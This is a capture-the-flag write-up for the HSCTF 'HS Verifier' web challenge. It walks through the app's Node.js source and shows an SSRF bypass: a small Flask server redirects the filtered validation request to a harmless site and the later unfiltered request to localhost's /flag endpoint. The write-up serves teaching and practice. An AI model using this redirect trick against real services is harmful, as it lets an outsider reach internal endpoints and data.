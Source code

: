 ```yaml
---
title: "HSCTF - HS Verifier"
date: 2022-05-25
mathjax: true
tags: [hsctf, web, ssrf]
draft: false
---
```


{{< lead >}}
This challenge was part of a CTF event hosted by [HackerSchool](https://hackerschool.io).
{{< /lead >}}

## Challenge statement

Being a web challenge, a website is provided in the statement, alongside the application's source code and a Dockerfile.

![website](website.png)

The website asks for two links, and after clicking "Go!", displays a diff between the two pages.

{{< figure src="diff.png" caption="Difference between example.com and github.com" >}}

In the source code we can find the following endpoints for the application:

```javascript
app.get('/', (req, res) => {
	res.render('index');
});

app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});

app.post('/diff', async (req, res) => {
	let { url1, url2 } = req.body
	if(typeof url1 !== 'string' || typeof url2 !== 'string'){
		return res.send({error: 'Inválido formato'})
	};
	let urls = [url1, url2];
	for(url of urls){
		const valid = await validifyURL(url);
		if(!valid){
			return res.send({error: `Request to ${url} was denied`});
		};
	};
	const difference = await diffURLs(urls);
	res.render('diff', {
		lines: difference
	});

});
```

From this snippet, it is clear that the objective of the challenge is to somehow get a request to the `/flag` endpoint coming from **localhost**.
This can be achieved by tricking the web server into perform that request through an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability.

## Working the problem

At first it may seem that simply placing "localhost" on one of the main page's inputs, would display the flag in the diff.
However, when attempting that strategy, the server sends back this response:

![denied](denied.png)

This is due to the `validifyURL` function, also provided in the source code:

```javascript
async function validifyURL(url){
	valid = await fetch(url, {agent: ssrfFilter(url)})
	.then((response) => {
		return true
	})
	.catch(error => {
		return false
	});
	return valid;
};
```

There is an SSRF filter implemented, which blocks any requested directed to itself. Providing the public IP also doesn't work.
The solution is to somehow provide a link that passes the SSRF filter, but still makes a call to localhost when performing the diff.
Note that the response from the SSRF filter is ignored.
This means that the application must make another request in order to perform the diff, as is confirmed in the `diffURLs` function.

```javascript
async function diffURLs(urls){
	try{
		const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
		const pageTwo = await fetch(urls[1]).then((r => {return r.text()}));
		return Diff.diffLines(pageOne, pageTwo)
	} catch {
		return 'error!'
	}
};
```

## Solution

By providing a link to a controlled server, it is possible to redirect the SSRF filter's request to a valid URL and then redirect the next request to localhost.
A way to achieve this is through a simple [Flask](https://flask.palletsprojects.com/en/2.1.x/) application:

```python
from flask import Flask, redirect, g


app = Flask(__name__)

local = False

@app.route('/')
def index():
    global local
    if not local:
        local = True
        return redirect("https://github.com")
    else:
        return redirect("http://127.0.0.1/flag")



app.run('0.0.0.0', 5000)
```

Providing this web server's link to the site will display the flag on the page.

{{< alert >}}
**NOTE**: with this implementation, only one of the links can point to the flask application
{{< /alert >}}

![flag](flag.png "The censored flag is shown at the bottom of the page")
